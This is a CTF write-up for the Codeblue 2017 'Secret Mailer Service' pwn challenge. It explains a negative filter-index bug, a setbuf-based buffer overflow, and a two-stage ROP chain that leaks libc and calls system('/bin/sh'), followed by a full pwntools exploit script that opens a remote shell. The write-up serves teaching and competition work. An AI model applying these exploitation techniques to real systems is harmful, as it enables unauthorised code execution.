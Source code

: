 ```yaml
---
title: Codeblue CTF 2017 - Secret Mailer Service
date: '2017-11-11'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- codeblue2017
tags:
- pwn
- rop
- overflow
- setbuf
authors:
- dp1
---
```


For this challenge we're given the binary of a service, `mailer`. There are 5 letters allocated on the stack which we can work on, and every time a letter is referenced the code checks if the index is valid - no exploits there. The service allows us to write, delete and post letters, where posting a letter really means writing out its contents to `/dev/null` with the ability to use a filter. It's in the filter selection that we find our vulnerability:

```cpp
int post_letter(Letter *letters, FILE *s)
{
    int v3;
    int v4;

    puts("\nWhich letter do you want to post?");
    printf("ID (0-%d): ", 4);
    v4 = read_number();
    if ( v4 < 0 || v4 > 4 || !letters[v4].present )
        return puts("Invalid ID.");
    puts("\nWhich filter do you want to apply?");
    filter_menu();
    v3 = read_number();
    if ( v3 > 2 )
        return puts("Invalid filter.");
    filters[v3](s, letters[v4].data, letters[v4].length);
    return puts("\nDone!");
}
```

The filter id is only checked to be <= 2 and not >= 0. This allows us to input a negative number in there and, since the filters are implemented as a lookup table of function addresses, we can basically call whatever function we want, as long as the parameters are compatible. What I did was call the setbuf entry in plt by using index -15, thus setting the data of one of the filters as the buffer for `/dev/null`. The nice part here is that libc assumes this buffer to be at least 8192 bytes long, so by posting other letters we can overflow it.

Let's have a quick look at how a letter is saved in memory:

```cpp
00000000 Letter          struc ; (sizeof=0x108, mappedto_5)
00000000 present         dd ?
00000004 length          dd ?
00000008 data            db 256 dup(?)
00000108 Letter          ends
```

And at the stack of the main loop (please note this is the inverted stack layout used by ida, lower addresses are on top):

```cpp
-0000053C stream          dd ?                    ; /dev/null
-00000538 var_538         dd ?
-00000534 var_534         dd ?
-00000530 data            Letter 5 dup(?)
-00000008 var_8           dd ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

The logical thing to do now is overflow the buffer for the last letter, getting full control of the return address while leaving the other entries free for our use - remember that to overflow the buffer we have to post other letters' contents. Unfortunately, we still don't know any libc address, so that's what we're going to focus on next. I did it in a quite convoluted way, but a way I liked: I realized that we could return first to the `read_letter` function, whose role is to read a string into a buffer, and give it the address of some free memory area in order to write a format string there, and then call `printf` to leak a plt address. The end of this first step is returning back to the main loop, now knowing libc's base address.

For the second and last step, I used the same setbuf and read_letter calls, only this time providing `"/bin/sh"` instead of `"%s"` to the latter. Then the logical thing was to call `system` on the buffer, getting a shell on the remote server. A couple of commands later, I got this:
`CBCTF{4R3_YOU_w4RM3D_UP_f0R_MORE_PWNabLeS?}`

Hell, this one took me a long time to figure out and it was only meant to be a warmup?

---

This is the full exploit script:

```python
from pwn import *

def chunks(data, step):
	for i in range(0, len(data), step):
		yield data[i:min(i+step, len(data))]

def add_letter(r, letter):
	r.recvuntil('> ')
	r.sendline('1')
	r.recvuntil('Input your contents:')
	r.sendline(letter)

def delete_letter(r, letterid):
	r.recvuntil('> ')
	r.sendline('2')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))

def post_letter(r, letterid, filterid):
	r.recvuntil('> ')
	r.sendline('3')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))
	r.recvuntil('> ')
	r.sendline(str(filterid))


libc = ELF('./libc.so.6')

r = remote('sms.tasks.ctf.codeblue.jp', 6029)
#r = process('./mailer')


### First step: obtain libc base address

buf_addr = 0x0804B040
p = 'A' * (256 + 12)

# write the format string using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(4)

# call printf("%s", plt.atoi)
p += p32(0x080484C0)
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(0x0804B03C) # got address for atoi

# call main_loop once again
p += p32(0x08048BD0)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4');
r.recvuntil(':)')
r.sendline('%s')
r.readline()
dump = r.readline()

atoi_addr = ord(dump[0]) + (ord(dump[1]) << 8) + (ord(dump[2]) << 16) + (ord(dump[3]) << 24)
print 'Atoi addr: 0x%x' % atoi_addr
libc_addr = atoi_addr - libc.symbols['atoi']
print 'Libc base: 0x%x' % libc_addr


### Second step: call system("/bin/sh")

p = 'A' * (256 + 12)

# write /bin/sh using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(16)

# call system("/bin/sh")
p += p32(libc_addr + libc.symbols['system'])
p += p32(0x08048dab) #pop:ret
p += p32(buf_addr)

# call fail
p += p32(0x0804868B)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4')
r.recvuntil(':)')
r.sendline('/bin/sh')

r.interactive()

```
